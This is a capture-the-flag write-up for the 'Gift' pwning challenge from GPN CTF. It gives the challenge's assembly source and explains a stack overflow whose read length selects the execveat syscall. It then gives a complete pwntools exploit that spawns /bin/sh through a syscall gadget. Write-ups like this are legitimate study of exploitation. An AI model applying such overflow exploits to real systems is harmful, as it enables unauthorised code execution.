 # Gift

|||
|-|-|
|  **CTF**  |  [GPN CTF](https://play.ctf.kitctf.de/) [(CTFtime)](https://ctftime.org/event/2257)  |
|  **Author** |  intrigus |
|  **Category** |  Pwning |
|  **Solves** |  9  |
| **Files** |  [gift.tar.gz](<gift.tar.gz>)  |

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/14a3d9c5-8cd7-4760-872d-ca4e7ca5ce5f)

# Solution

After unzipping, we get the source code of the challenge:

```s
.section .text
    .global _start

read_input:
    # Read 314 bytes + 16 free bytes from stdin to the stack
    sub $314, %rsp                # Make room for the input
    mov $0, %rax                  # System call number for read
    mov $0, %rdi                  # File descriptor for stdin
    mov %rsp, %rsi                # Address of the stack
    mov $330, %rdx                # Number of bytes to read
    syscall                       # Call the kernel
    add $314, %rsp                # Restore the stack pointer
    ret

_start:
    # Print the message to stdout
    mov $1, %rax                  # System call number for write
    mov $1, %rdi                  # File descriptor for stdout
    mov $message, %rsi            # Address of the message string
    mov $message_len, %rdx        # Length of the message string
    syscall                       # Call the kernel

    call read_input

    # Exit the program
    mov $60, %rax                 # System call number for exit
    xor %rdi, %rdi                # Exit status 0
    xor %rsi, %rsi                # I like it clean
    xor %rdx, %rdx                # I like it clean
    syscall                       # Call the kernel

message: .asciz "Today is a nice day so you get 16 bytes for free!\n"
message_len = . - message
```

The challenge is made in assembly. It does 3 main things:

1. Prints the message to stdout
2. Read input from the user
3. Exit the program

When reading our input, it gives 16 bytes extra as a gift. We can see that it subtracts 314 from rsp. We can send 330 bytes. This means that we have an overflow. We can hit the rip with 314 bytes.

So the size of rip is 8 bytes. Thus, we can send 314 + 8(this will be put in rip) = 322 bytes to control rip. The read syscall returns the amount it reads in rax. 
If we check what the syscall of 322/0x142 is, we see that it's `execveat`. With this, we can execute commands. At the ret of `read_input`, rsi still contains the address of our input. 
So we can put `/bin/sh` at the start of our buffer.

When we overflow and jump to the syscall gadget, we can see:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/bc221996-9e29-4cec-9d9c-86c85a5dcc98)

We see that rdx is not empty, so it will segfault. Luckily, there is a gadget that xors rdx before calling syscall. It's used when exiting the program (check the source above).

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/46423d1f-6fad-4fe3-9f08-53a043e89895)

So my final script looks like this:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b *read_input+0x28
c
'''.format(**locals())

exe = './gift'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context(terminal=['tmux', 'split-window', '-h'])

REMOTE = True

if REMOTE:
    io = start(ssl=True)
else:
    io = start()
    
payload = flat(
    b'/bin/sh\x00',
    b'A' * (314 - 8),
    0x401059
    )
io.sendafter(b'!\n', payload)

io.interactive()
```

If we run this on remote, we can get the flag:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/90f88cdc-eece-4502-bfdc-9c5ec867d497)



